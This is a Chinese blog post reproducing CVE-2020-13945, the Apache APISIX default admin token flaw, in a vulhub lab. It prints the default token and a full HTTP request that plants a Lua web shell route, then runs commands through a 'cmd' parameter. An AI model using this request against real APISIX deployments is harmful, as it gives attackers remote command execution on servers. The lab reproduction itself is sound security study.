




# CVE-2020-13945 - Zovt - 博客园

> 原文：[`www.cnblogs.com/zovt/p/16340367.html`](https://www.cnblogs.com/zovt/p/16340367.html)

## Apache APISIX 默认密钥漏洞（CVE-2020-13945）复现

### 一、 实验所需环境

#### 1、Ubuntu

#### 2、vulhub

#### 3、apisix/CVE-2020-13945

### 二、 漏洞介绍

Apache APISIX 是一个高性能 API 网关。在用户未指定管理员 Token 或使用了默认配置文件的情况下，Apache APISIX 将使用默认的管理员 Token edd1c9f034335f136f87ad84b625c8f1，攻击者利用这个 Token 可以访问到管理员接口，进而通过 script 参数来插入任意 LUA 脚本并执行。

### 三、 漏洞复现

（1）进入 vulhub，选择 apisix/CVE-2020-13945 漏洞环境，
输入命令启动：`docker-compose up -d`


（2）环境启动成功后，访问 http://your-ip:9080 即可查看到默认的 404 页面。


（3）使用 Burp Suite 抓包，利用默认 Token 增加一个恶意的 router，
其中包含恶意 LUA 脚本：

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
} 
```



（4）然后，我们访问刚才添加的 router，就可以通过 cmd 参数执行任意命令：[`your-ip:9080/attack?cmd=id`](http://your-ip:9080/attack?cmd=id)


### 参考链接：

*   [`github.com/vulhub/vulhub/blob/master/apisix/CVE-2020-13945`](https://github.com/vulhub/vulhub/blob/master/apisix/CVE-2020-13945)
*   [`apisix.apache.org/docs/apisix/getting-started`](https://apisix.apache.org/docs/apisix/getting-started)
*   [`github.com/apache/apisix/pull/2244`](https://github.com/apache/apisix/pull/2244)
*   [`seclists.org/oss-sec/2020/q4/187`](https://seclists.org/oss-sec/2020/q4/187)